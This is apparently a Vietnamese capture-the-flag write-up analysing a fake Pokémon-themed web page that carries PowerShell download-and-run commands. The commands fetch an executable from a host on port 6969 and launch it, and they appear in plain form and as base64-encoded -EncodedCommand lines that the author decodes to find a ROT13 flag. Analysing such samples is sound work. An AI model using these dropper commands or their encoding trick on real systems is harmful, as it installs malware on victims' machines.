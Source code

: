 ```php
                a better trainer? Rocket Corp's Master Ball Serum can help! Our all-natural formula boosts your energy
                levels and helps you feel like a young trainer ready to take on the world again!</p><button>Find out
                more!</button>
        </div>
        <div class="image"> <img src="depressed_pokemon_trainer.png" alt="Pikachu"> </div>
    </div>
</body>

</html>
$env:WEB_REQUEST -Uri http://dns-server:6969/explorer.exe -OutFile explorer.exe; Start-Process explorer.exe
```
và thêm

```php
powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7AA==
```

Dịch base64 cho đoạn trên thì thu được `Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe;`

Sau đó thì mình tìm được 1 đoạn khác 
```php
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```
Dịch base64: 
`Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'`

Đoạn `gurl_jnag_gurve` khá giống flag :)), mình sử dụng chatgpt mới biết nó là ROT13 encode :))), guessing đến chết ạ!!!
